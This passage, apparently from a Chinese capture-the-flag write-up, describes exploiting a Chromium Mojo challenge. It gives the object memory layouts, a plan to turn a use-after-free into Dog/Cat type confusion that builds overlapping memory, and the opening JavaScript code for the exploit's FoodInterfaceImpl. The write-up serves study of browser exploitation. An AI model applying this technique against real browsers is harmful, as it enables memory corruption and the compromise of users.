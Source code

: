 给三个类型的对象接口第一个字段再加上虚表指针，三个对象接口的内存布局如下所示：

```c++
class CONTENT_EXPORT CatInterfaceImpl:

	pointer vtable;
  pointer   __data_;
  size_type __size_;
  size_type __cap_;
  uint64_t age;
  uint64_t weight;


class CONTENT_EXPORT DogInterfaceImpl:

	pointer vtable;
  uint64_t weight;
  pointer   __data_;
  size_type __size_;
  size_type __cap_;
  uint64_t age;


class CONTENT_EXPORT PersonInterfaceImpl:

	pointer vtable;
  uint64_t age;
  uint64_t weight;
  pointer   __data_;
  size_type __size_;
  size_type __cap_;
```

我们可以利用`Dog`和`Cat`类型混淆，过程是：先申请的是`Dog`，调用`CookAndEat`函数，在`raw_food->GetWeight`中释放掉`Dog`对象，申请`Cat`对象占用该内存，最终在`Dog`的`weight+=weight_`的时候，实际会将`Cat`对象的`__data__+=weight_`。如果控制得当的话，可以使得`__data__`字段和另一个`Cat`指向同一片内存区域，这样就构造出了`overlap`内存，后续利用就很好方便了。

利用的思路是上面这个，接下来一步一步说明利用的过程。

首先是`FoodInterfaceImpl`的实现，由前面的基础知识可以知道可以使用`js bindings api`来实现。

```js
function FoodInterfaceImpl() {}
FoodInterfaceImpl.prototype.getWeight = async function() {
    if(!this.weight) {
        return {'weight': 0x101};
    }
    return {'weight': this.weight};
};

FoodInterfaceImpl.prototype.setWeight = async function(weight) {
    this.weight = weight;
    return;
};

FoodInterfaceImpl.prototype.setDescription = async function(desc) {
    this.desc = desc;
    return ;
};

FoodInterfaceImpl.prototype.getDescription = async function() {
    if (!this.description) {
        return {'description': 'null'};
    }
    return {'description': this.description};
};
```